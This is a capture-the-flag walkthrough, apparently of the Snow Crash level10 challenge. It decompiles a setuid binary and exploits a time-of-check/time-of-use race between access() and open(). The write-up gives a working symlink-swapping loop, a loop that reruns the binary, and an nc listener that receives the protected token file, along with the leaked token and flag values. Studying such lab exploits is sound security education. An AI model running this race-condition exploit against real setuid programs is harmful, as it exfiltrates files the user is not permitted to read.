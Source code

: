 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2010(level10) gid=2010(level10) groups=2010(level10),100(users)
```

This shows that we are operating as the user `level10`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token


$ file level10
level10: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf7e21fb68568fa57d6317d0535b97d9fca66f841, not stripped

$ file token
token: regular file, no read permission
```
The level10 binary is a setuid ELF executable, meaning it executes with flag10 user's privileges.


---
## Step 3: Reversing Binary with Ghidra

```c
void main(int param_1,undefined4 *param_2)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (param_1 < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*param_2);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar6 = (char *)param_2[1];
  __cp = (char *)param_2[2];
  iVar2 = access((char *)param_2[1],4);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

### Explanation

The binary has a race condition vulnerability due to the access() check being performed before the open() call. This means that there is a small window of time between the access check and the file being opened, during which the file (or its reference) can be swapped.

```bash
$ man access

Warning: Using these calls to check if a user is authorized to, for example, open a file before actually  doing  so  using  open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.
```


## Step 4: Exploiting the race condition vulnerability
We will exploit the race condition by creating a symbolic link (/tmp/exploit) that alternates between pointing to a file we control (/tmp/test) and the token file, and start an infinite loop to switch the symlink:
```bash
$ echo "..." > /tmp/test

while true; do ln -fs /tmp/test /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```

In a second terminal, run another infinite loop to execute the level10 binary:
```bash
while true; do ./level10 /tmp/exploit machine_ip; done
```

Finally, in a third terminal, set up a listener on port 6969 to capture the output:
```bash
nc -lk 6969
```

### Outcome Scenarios

There are three possible outcomes:

    1. Access to token file fails: The output will be: You don't have access to /tmp/exploit.
    2. Symlink points to test file: The listener will print the contents of /tmp/test.
    3. Symlink points to test file when the file is accessed, and when the file is opened, it points to the token file: The listener will print the contents of ~/token, which contains the secret token.


### Listener Output
```bash
...
...
woupa2yuojeeaaed06riuj63c
...
woupa2yuojeeaaed06riuj63c
...
```

```bash
$ su flag10
Password : 
woupa2yuojeeaaed06riuj63c

% getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
---

And there you have it, the token is `feulo4b72j7edeahuete3no7c`.